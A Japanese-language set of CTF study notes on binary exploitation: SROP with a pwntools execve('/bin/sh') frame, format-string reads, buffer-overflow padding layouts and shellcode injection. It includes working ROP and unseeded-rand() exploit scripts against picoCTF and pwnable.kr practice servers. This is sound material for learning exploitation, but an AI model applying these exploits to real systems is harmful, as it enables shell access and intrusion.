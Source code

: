 # pwn,reversing,binary  
  
## SROP
### sigreturnシステムコール
プログラム動作中にシグナルが発生すると、カーネルはプロセスを一時停止してシグナルハンドラを呼び出す  
その際、カーネルはシグナルを受け取ったときの状態をスタックに保存しておく。  
シグナルハンドラの処理が終わるとsigreturn()が呼び出される。  
sigreturn()はスタックから値をpopして元のプロセスのコンテキスト（プロセッサフラグ、レジスタ等）を復元する  
（そのおかげで、シグナルにより割り込まれた場所から元のプロセスを再開できる）。  

**raxレジスタにsigreturnのシステムコール番号を設定しsyscallする＋偽造sigframeという形でROPチェーンを組む。  
これでsigreturnが発生し、その後にあるsigframeを読み込んでシェルが起動する。**


### 必要なガジェット  

``` mov rax, 0x0f; syscall; ret ```  


### SigreturnFrame()の返り値に対してexecve('/bin/sh')を実行するためのレジスタの設定  

```pwntools
sigret_frame = SigreturnFrame()
sigret_frame.rax = constants.SYS_execve
sigret_frame.rdi = addr_binsh
sigret_frame.rsi = 0
sigret_frame.rdx = 0
sigret_frame.rip = syscall_ret

```

### 書式指定子攻撃

``` %n$p ``` を使用することで、  
わざわざ ``` %p %p %p ... ``` と入力する必要なく、  
何番目と指定することができる

``` 
//6番目がほしいとき
%6$p
```

"%x"などはスタック上にある値をそのまま出力するだけですが，"%s"はその値をポインタとして読んでくれます．  
そのため，スタック上に読みたいアドレスが置かれていれば，  
その引数の番号を"%n$s"のように指定することでデータを読み出すことができます．  
もちろん読み出せないアドレスが指定されるとSegmentation Faultで終了します．  


## bufferoverflow  
### リターンアドレスを書き換える
リターンアドレスは、**rbp+0x8の場所**に位置しているため、0x8分のパディングを忘れないようにすること  
また、32bitアーキテクチャの場合は、  
パディング  
+  
8byte(rbp分のパディング)  
+   
4byte(パディング)   
+  
飛ばしたいアドレス  
の順番になる  
  
  
  
### 引数をつけて関数を飛ばす  
#### 引数のよりも前にリターンアドレスを書き換える！
パディング  
+  
8byte(rbp分のパディング)  
+   
4byte(パディング)   
+  
飛ばしたいアドレス  
+  
4byte(ret分のパディング)  
+  
引数1  
+  
引数2  
の順番になる  
https://tech.kusuwada.com/entry/2019/10/12/023145#section1  
  
  
### 実行ファイルからバイナリコードを抽出する  
``` objdump -M intel -d a.out | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g' ```  
  
  
  
### シェルコードをインジェクションする  
シェルコード  
+  
本来のパディング数 - シェルコードの文字数  
+  
8byte(パディング)  
+  
バッファーアドレス  


### pwntoolsメモ
#### うまく実行したコードが刺さらないとき  
``` context.log_level = "debug" ```  
にすることで、recvした際にどのようなデータが飛んできているのかがわかる  

### ROPGadgetを使用する際の注意点  
ROPGadgetではオプションでpythonスクリプトを自動で出力してくれる機能があるが、  
**これを使用するとうまく刺さらないことがある。**  
#### 対処法  
pwntoolsに実装されているchain()を使うことで刺さる  
<details> 
<summary>実装例を表示する </summary> 
  
```
from pwn import *

elf = ELF("vuln")
context.binary = elf
context.kernel = "amd64"

s = remote("saturn.picoctf.net", 65000)
#s = remote("localhost", 8888)

rop = ROP(elf)
rop.gets(0x080e5060)
rop.execve(0x080e5060, 0, 0)
print(rop.dump())
s.sendline(b"a"*0x1c+rop.chain())

s.sendline(b"/bin/sh")

s.interactive()
```
  
</details> 
  






### C言語の関数内の脆弱性

#### rand()を呼び出した際に引数に何も渡さない場合の脆弱性
rand()内になにも引数を渡さない場合は、何回プログラムを実行しても同じ値がrandomに代入される。  
また、key^randomの^はXOR演算子と呼ばれるもので特徴として**a^(a^b) == b となる。**  
例:  0xrandomの値が格納されているアドレス ^ 0xdeadbeef を入力すれば、0xdeadbeefが解になる。

```
from pwn import *

payload = 0x6b8b4567 ^ 0xdeadbeef
s1 = ssh(host="pwnable.kr", user="random", password="guest", port=2222)
r = s1.process("./random")
r.sendline(str(payload).encode())
r.interactive()
```
